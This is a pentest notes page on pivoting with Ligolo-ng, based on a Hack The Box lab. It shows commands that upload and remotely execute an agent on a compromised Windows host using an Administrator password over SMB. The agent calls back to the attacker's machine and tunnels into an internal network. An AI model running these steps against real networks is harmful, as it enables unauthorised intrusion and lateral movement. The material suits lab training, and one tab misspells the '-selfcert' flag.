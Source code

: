```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Ligolo-ng

## Commands

### Basic Commands

{% tabs %}
{% tab title="1. Server tun if" %}
```bash
sudo ip tuntap add user kali mode tun ligolo && sudo ip link set ligolo up
```
{% endtab %}

{% tab title="2a. Proxy (no internet)" %}
```bash
proxy -seflcert
```
{% endtab %}

{% tab title="2b. Proxy (internet)" %}
```bash
proxy -autocert
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="3. Agent" %}
```bash
./agent -connect 10.129.204.146:11601
```
{% endtab %}

{% tab title="4. Add route" %}
```
sudo ip route add 172.16.10.0/24 dev ligolo
```
{% endtab %}

{% tab title="4. Session" %}
```bash
ligolo-ng » session
```
{% endtab %}

{% tab title="5. Tunnel" %}
```bash
[Agent : user@nworkstation] » start_tunnel --tun ligolo
```
{% endtab %}
{% endtabs %}

### Agent Transfer & Execution

{% tabs %}
{% tab title="Transfer" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth --put-file 'agent.exe' '\Windows\Temp\agent.exe'
```
{% endcode %}
{% endtab %}

{% tab title="Execute" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth -x '\Windows\Temp\agent.exe -connect 10.10.15.223:11601 -ignore-cert'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Usage

{% hint style="info" %}
The below network configuration is from the [Vulnerability Scan Modules](https://academy.hackthebox.com/module/84/section/822) section of the Hack The Box's [Using CrackMapExec](https://academy.hackthebox.com/module/details/84) module.
{% endhint %}

We have compromised a Windows pivot host with 2 NICs (Figure 1). Our goal is to be able to interact with the `172.16.10.0/24` network, which at the moment we cannot (Figure 2).&#x20;

<figure><img src="../../.gitbook/assets/ligolo_ipconfig.png" alt=""><figcaption><p>Figure 1: The compromised pivot host has 2 NICs, one for the 172.16.10.0 and one for the 10.129.0.0 network.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/ligolo_target_network_fail.png" alt=""><figcaption><p>Figure 2: Performing an unsuccessful live host discovery and ARP port scan on the target network. </p></figcaption></figure>

Create a tun interface on the Linux attack host (Figure 3).

<figure><img src="../../.gitbook/assets/ligolo_tun_if.png" alt=""><figcaption><p>Figure 3: Setting up a tun intefrace.</p></figcaption></figure>

Start `proxy` on the Linux attack host (Figure 4). For pivot hosts with no internet connectivity a self-signed certificate need to be generated (`-selfcert`). Otherwise, use `-autocert` to request a proper certificate.

> _On a Windows attack host, we need to have the appropriate_ [_`wintun.dll`_](https://www.wintun.net/) _on the same folder._

<figure><img src="../../.gitbook/assets/ligogo_proxy.png" alt=""><figcaption><p>Figure 4: Starting the proxy server on the attack host.</p></figcaption></figure>

Transfer and execute the `agent.exe` binary to the pivot host (Figure 5).

{% hint style="success" %}
**Admin access** on the target host **is** **NOT required**!
{% endhint %}

<figure><img src="../../.gitbook/assets/ligolo_ng_agent_transfer_execute.png" alt=""><figcaption><p>Figure 5: Transferring and executing the agent on the pivot host.</p></figcaption></figure>

A connection should be received on the attack host (Figure 6).

<figure><img src="../../.gitbook/assets/ligolo_proxy_received.png" alt=""><figcaption><p>Figure 6: Received a connection on thte attack host.</p></figcaption></figure>

Add an IP route for the target network (_ligogo device_) on the attack host (Figure 7).

<figure><img src="../../.gitbook/assets/liogo_add_route.png" alt=""><figcaption><p>Figure 7: Adding an IP route for the target network.</p></figcaption></figure>

Choose the appropriate session and start the tunnel (Figure 8).

<figure><img src="../../.gitbook/assets/ligolo_start_tunnel.png" alt=""><figcaption><p>Figure 8: Choosing the session and starting the tunnel.</p></figcaption></figure>

We can now interact from our attack host as if we were a part of the internal network (Figure 9).

<figure><img src="../../.gitbook/assets/ligolo_live_host_disc_arp_port_scan.png" alt=""><figcaption><p>Figure 9: Performing a successful live host discovery and an ARP port scan on the target network.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="Repo" %}
{% embed url="https://github.com/nicocha30/ligolo-ng" %}
{% endtab %}

{% tab title="Demonstration" %}
{% embed url="https://www.youtube.com/watch?v=qou7shRlX_s" %}
{% endtab %}
{% endtabs %}

